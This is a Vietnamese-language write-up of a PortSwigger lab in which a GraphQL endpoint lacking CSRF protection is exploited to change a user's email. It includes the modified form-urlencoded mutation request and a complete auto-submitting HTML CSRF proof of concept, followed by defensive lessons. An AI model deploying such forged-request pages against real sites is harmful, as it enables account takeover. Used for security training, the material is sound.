

# Write-up: Performing CSRF exploits over GraphQL

### Tổng quan
Khai thác lỗ hổng **Cross-Site Request Forgery (CSRF)** trong ứng dụng web sử dụng API GraphQL, nơi endpoint `/graphql/v1` không kiểm tra CSRF token, cho phép kẻ tấn công gửi mutation `changeEmail` để thay đổi email của người dùng. Bằng cách tạo một PoC CSRF, kẻ tấn công lừa nạn nhân thực thi request đổi email, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **CSRF** trong endpoint GraphQL `/graphql/v1`, sử dụng mutation `changeEmail` để thay đổi email của tài khoản nạn nhân thông qua PoC CSRF, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và truy cập `/my-account`. 
- Quan sát trong Burp Proxy request gửi đến endpoint GraphQL:  
    
- **Phân tích**:  
  - Endpoint `/graphql/v1` xử lý mutation `changeEmail` để thay đổi email của người dùng đang đăng nhập.  
        
  - Request không yêu cầu CSRF token, cho thấy khả năng khai thác CSRF

2. **Kiểm tra lỗ hổng CSRF**  
- Gửi request trên đến Burp Repeater và sửa Content-Type thành `application/x-www-form-urlencoded`:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0aa400ef041023c980de03ae00db0073.web-security-academy.net
  Cookie: session=...
  Content-Type: application/x-www-form-urlencoded

  query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
  ```  
- Kết quả: Email được cập nhật thành `hacker@hacker.com`, xác nhận endpoint dễ bị CSRF do thiếu kiểm tra token:  
    

3. **Khai thác (Exploitation)**  
- **Ý tưởng khai thác**:  
  - Tạo PoC CSRF để lừa nạn nhân gửi request đổi email khi truy cập trang độc hại.  
  - PoC sử dụng form HTML tự động gửi request đến `/graphql/v1` với mutation `changeEmail`.  
- Tạo PoC CSRF:  
  ```html
  <html>
    <body>
      <form action="https://0aa400ef041023c980de03ae00db0073.web-security-academy.net/graphql/v1" method="POST">
        <input type="hidden" name="query" value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;" />
        <input type="hidden" name="operationName" value="changeEmail" />
        <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;hacker3333&#64;hacker&#46;com&quot;&#125;&#125;" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        history.pushState('', '', '/');
        document.forms[0].submit();
      </script>
    </body>
  </html>
  ```  
- Lưu PoC vào body của Exploit Server: 
    

- Nhấn **Deliver to victim** trong Exploit Server:  
  - Nạn nhân truy cập trang độc hại, form tự động gửi request đổi email sang `hacker3333@hacker.com`.  
  - Kết quả: Email của tài khoản nạn nhân (thường là `carlos`) được thay đổi, lab xác nhận hoàn thành:   
      

- **Ý tưởng payload**:  
  - Sử dụng form HTML tự động gửi mutation `changeEmail` đến `/graphql/v1`, lợi dụng việc thiếu CSRF token để đổi email của nạn nhân.  

### Bài học rút ra
- Hiểu cách khai thác **CSRF** trong API GraphQL, sử dụng mutation `changeEmail` để thay đổi email của nạn nhân thông qua form HTML độc hại.  
- Nhận thức tầm quan trọng của việc triển khai CSRF token trong các endpoint GraphQL, kiểm tra nghiêm ngặt nguồn gốc request (ví dụ: qua header `Origin` hoặc `Referer`), và sử dụng Content-Type `application/json` để hạn chế CSRF.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **CSRF** trong API GraphQL, nhấn mạnh tầm quan trọng của việc triển khai CSRF token và kiểm tra nguồn gốc request để ngăn chặn các hành động trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*